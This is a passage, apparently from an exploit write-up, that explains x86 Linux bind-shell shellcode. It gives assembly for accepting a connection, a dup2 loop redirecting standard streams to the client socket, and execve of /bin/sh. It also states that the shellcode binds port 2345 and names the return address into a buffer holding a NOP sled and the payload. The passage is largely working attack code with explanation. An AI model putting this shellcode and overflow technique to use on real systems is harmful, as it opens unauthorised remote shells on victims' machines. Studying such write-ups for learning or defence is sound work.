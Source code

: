 eax = 0x66 (system call number for sys_socketcall).
ebx = 5 (operation code for accept).
ecx points to the stack containing the arguments.
Executes the system call with int 0x80.
Stores the new client file descriptor in edi.
6. Redirect Standard Streams

xor ecx, ecx         ; ECX = 0 (stdin)
dup2_loop:
    mov al, 0x3f     ; EAX = sys_dup2
    int 0x80         ; Call kernel
    inc ecx          ; ECX++
    cmp ecx, 3       ; Loop until ECX = 3
    jne dup2_loop
Purpose: Redirects stdin, stdout, and stderr to the client file descriptor (edi).
Explanation:
Loops through the standard file descriptors (0, 1, and 2).
Executes the dup2 system call to duplicate the client file descriptor (edi) onto each of the standard streams.
7. Execute /bin/sh

xor eax, eax         ; Clear EAX
push eax             ; NULL (envp)
push 0x68732f6e      ; Push "n/sh"
push 0x69622f2f      ; Push "//bi"
mov ebx, esp         ; EBX = pointer to "/bin/sh"
xor ecx, ecx         ; NULL (argv)
mov edx, ecx         ; NULL (envp)
mov al, 0xb          ; EAX = sys_execve
int 0x80             ; Call kernel
Purpose: Launches an interactive /bin/sh shell.
Explanation:
Pushes the string /bin/sh onto the stack in reverse order for proper alignment.
Sets up the arguments for the execve system call:
ebx points to /bin/sh.
ecx and edx are NULL (no arguments or environment variables).
Executes the execve system call (eax = 0xb).

### Final Notes

This shellcode works by:
Creating a socket.
Binding it to port 2345.
Listening for incoming connections.
Accepting a client connection.
Redirecting standard streams to the client.
Spawning a shell for interactive use.


## Return Address
The return address used in the exploit was \x06\xb3\x04\x08, which corresponds to an offset within the msgbuf buffer (0x804b300). This address was chosen because msgbuf directly contains the payload, including the NOP sled and the shellcode.

